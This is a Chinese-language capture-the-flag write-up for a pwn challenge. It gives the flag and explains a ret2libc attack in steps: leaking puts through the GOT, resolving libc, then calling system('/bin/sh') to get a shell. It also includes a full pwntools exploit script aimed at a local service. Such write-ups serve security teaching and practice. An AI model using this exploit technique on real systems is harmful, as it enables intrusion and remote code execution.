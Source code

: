 ## flag

flag{163285b5-8dd9-4765-86fb-931a95738443}

## 解題步驟

題目是一個簡單的ret2libc，main函數中存在棧溢出，題目存在system函數，但無/bin/sh字元串，選擇 棧溢出，控制執行流去把rdi設置為puts函數的got表，然後去執行puts函數洩露puts函數的真實位址， 通過LibcSearcher找到和適的libc版本，減去偏移得到libc基地址，執行完成後， 把程式再次返回到主函 數，再次棧溢出，去把rdi佈置為用libc找到的binsh位址，然後執行system函數，但在執行過程中，會遇 到棧對齊，在rop鏈中加一條ret指令即可，成功getshell

exp:

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', os='linux', log_level='debug')
# p=process("./pwn")
p=remote("127.0.0.1",9999)
e=ELF("./pwn")
libc=ELF("./libc.so.6")
pop_rdi=0x0000000000400843
vuln=0x4006E1
main=0x04006A8
puts_got=0x600c48
puts_plt=0x400520
payload=b'a'*0x28+p64(pop_rdi)+p64(puts_got)
payload+=p64(puts_plt)+p64(main)
# gdb.attach(p)
p.sendafter('flag\n',payload)

addr=u64(p.recv(6).ljust(0x8,b'\x00'))
print("=========================>",hex(addr))

addr=addr-libc.sym['puts']
print("=========================>",hex(addr))

ret=0x000000000040050e
binsh=addr+next(libc.search(b"/bin/sh\x00"))
system=addr+libc.sym['system']
pop_rax=0x000000000001b500+addr

payload1=b'a'*0x28+p64(pop_rdi)
payload1+=p64(binsh)+p64(ret)
payload1+=p64(system)

p.sendline(payload1)
p.interactive()

```

![1733315477910](img/1733315477910.png)

